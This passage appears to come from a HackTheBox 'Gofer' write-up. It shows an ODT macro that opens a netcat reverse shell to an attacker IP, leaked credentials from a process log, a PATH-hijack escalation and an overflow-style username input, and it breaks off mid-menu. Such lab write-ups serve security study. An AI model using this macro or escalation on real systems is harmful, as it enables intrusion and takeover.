 Odt macros:

``text
REM  *****  BASIC  *****

Sub Main
    Shell("nc 10.10.14.145 9001 -e /bin/bash")
End Sub
```

```text
pwd 
/home/jhudson
id
uid=1000(jhudson) gid=1000(jhudson) groups=1000(jhudson),108(netdev)
cat user.txt
938660239fc2c842f3992f064550ad77
```




### ROOT:


We can see a lot of traffic coming in for HTTP. Curiously though, we can see some being made internally from 127.0.0.1. Running linpeas, we’ll get some interesting info. We can use tcpdump.

Run pspy64:


```text
2023/10/25 20:39:01 CMD: UID=0     PID=21911  | /usr/bin/curl http://proxy.gofer.htb/?url=http://gofer.htb --user tbuckley:ooP4dietie3o_hquaeti 

```



```text
tbuckley@gofer:~$ nano tar
tbuckley@gofer:~$ chmod +x tar
tbuckley@gofer:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
tbuckley@gofer:~$ export PATH="/home/tbuckley:$PATH"
tbuckley@gofer:~$ echo $PATH
/home/tbuckley:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
tbuckley@gofer:~$ notes
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 1

Choose an username: AAAAAAAAAAAAAAAAAAAAAAAAadmin

========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
```